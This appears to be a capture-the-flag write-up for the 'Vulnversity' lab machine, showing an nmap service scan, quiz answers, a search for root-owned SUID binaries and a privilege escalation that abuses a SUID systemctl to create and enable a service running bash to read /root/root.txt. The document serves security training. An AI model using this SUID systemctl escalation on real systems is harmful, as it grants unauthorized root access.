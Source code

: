 # Vulnversity

## Scan the box, how many ports are open?

There are 6 open ports:

~~~
$ nmap -sV -p- 10.10.236.222

Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-29 01:23 PDT
Stats: 0:00:02 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 50.00% done; ETC: 01:23 (0:00:02 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 0.50% done
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 3.18% done; ETC: 01:25 (0:02:32 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 5.28% done; ETC: 01:25 (0:02:23 remaining)
Stats: 0:01:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.73% done; ETC: 01:25 (0:01:11 remaining)
Nmap scan report for 10.10.236.222
Host is up (0.045s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 348.72 seconds
~~~

## What version of the squid proxy is running on the machine?
~~~
3.5.12
~~~

## How many ports will nmap scan if the flag -p-400 was used?
~~~
400
~~~

## Using the nmap flag -n what will it not resolve?
~~~
DNS
~~~

## What is the most likely operating system this machine is running?
~~~
Ubuntu
~~~
Revealed by port 22 (nmap)

## What port is the web server running on?
~~~
3333
~~~

## Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)


$ find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ 


$ cat > /tmp/flag.service << EOF
> [Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/flag.txt"
> [Install]
> WantedBy=multi-user.target
> EOF
$ cat flag.service
[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/flag.txt"
[Install]
WantedBy=multi-user.target
$ /bin/systemctl link /tmp/flag.service
$ /bin/systemctl enable --now /tmp/flag.service
Created symlink from /etc/systemd/system/multi-user.target.wants/flag.service to /tmp/flag.service.
$ cat flag.txt	
a58ff8579f0a9270368d33a9966c7fd5
